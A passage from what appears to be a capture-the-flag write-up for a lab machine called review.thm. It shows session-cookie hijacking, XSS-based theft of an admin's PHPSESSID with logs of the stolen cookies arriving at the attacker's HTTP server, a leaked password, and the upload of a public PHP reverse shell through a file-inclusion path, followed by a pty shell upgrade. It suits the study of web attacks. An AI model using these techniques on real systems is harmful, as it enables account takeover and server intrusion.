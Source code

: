 Copy the cookies value of the mod to our value and then reload the page

<img width="1276" height="757" alt="image" src="https://github.com/user-attachments/assets/1cae25f0-257b-4cd4-91cf-f9f02aa1ce7c" />

That's right, we can see the mod flag at the top of the page 👍

After that, we got the Mod page, I seemed to pay attention to the chat section with the Admin, after trying a lot of Payload XSS and it was not successful, but what I did not think about was that we could send the admin to the feedback link that we sent http://review.thm/contact.php

python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
10.201.50.181 - - [22/Sep/2025 11:37:49] code 404, message File not found
10.201.50.181 - - [22/Sep/2025 11:37:49] "GET /stealcookies?PHPSESSID=buiscm78c6ni4jakeu12ejig3n HTTP/1.1" 404 -
10.201.50.181 - - [22/Sep/2025 11:37:51] code 404, message File not found
10.201.50.181 - - [22/Sep/2025 11:37:51] "GET /stealcookies?PHPSESSID=buiscm78c6ni4jakeu12ejig3n HTTP/1.1" 404 -
10.201.50.181 - - [22/Sep/2025 11:37:52] code 404, message File not found
10.201.50.181 - - [22/Sep/2025 11:37:52] "GET /stealcookies?PHPSESSID=836k3hecvt40k2pml7b24mb11n HTTP/1.1" 404 -
10.201.50.181 - - [22/Sep/2025 11:37:54] code 404, message File not found
10.201.50.181 - - [22/Sep/2025 11:37:54] "GET /stealcookies?PHPSESSID=buiscm78c6ni4jakeu12ejig3n HTTP/1.1" 404 -
10.201.50.181 - - [22/Sep/2025 11:37:56] code 404, message File not found
10.201.50.181 - - [22/Sep/2025 11:37:56] "GET /stealcookies?PHPSESSID=buiscm78c6ni4jakeu12ejig3n HTTP/1.1" 404 -
10.201.50.181 - - [22/Sep/2025 11:37:59] code 404, message File not found
10.201.50.181 - - [22/Sep/2025 11:37:59] "GET /stealcookies?PHPSESSID=buiscm78c6ni4jakeu12ejig3n HTTP/1.1" 404 -

This is admin cookies 836k3hecvt40k2pml7b24mb11n
So we have flag2
In the third flag I took a lot of time but after I was completed I felt that I was complicated on a simple problem 😄
In http://review.thm/mail/dump.txt has provided us with some important things

<img width="556" height="358" alt="image" src="https://github.com/user-attachments/assets/d703df3d-a86a-41be-8a84-579ac50c88ad" />

First, this page has lacked finance.php, right?
I fixed lottery.php to finance.php

<img width="552" height="576" alt="image" src="https://github.com/user-attachments/assets/00ce95a6-fa74-4daa-8946-88da12065dc2" />

That's right and we also have a password from mail : S60u}f5j

I used Reverse Shell from here https://github.com/pentestmonkey/php-reverse-shell

After upload i went to http://review.thm/uploads/ but it was empty, maybe it was in an internal

<img width="679" height="353" alt="image" src="https://github.com/user-attachments/assets/9844e0b1-a8f2-41de-8692-81461434c666" />

I tried to do like now just fix lottery.php to uploads/php-reverse-shell.php And so I got reverse shell
We are in a docker container let’s start by upgrading to shell : python3 -c "import pty;pty.spawn('/bin/bash')"
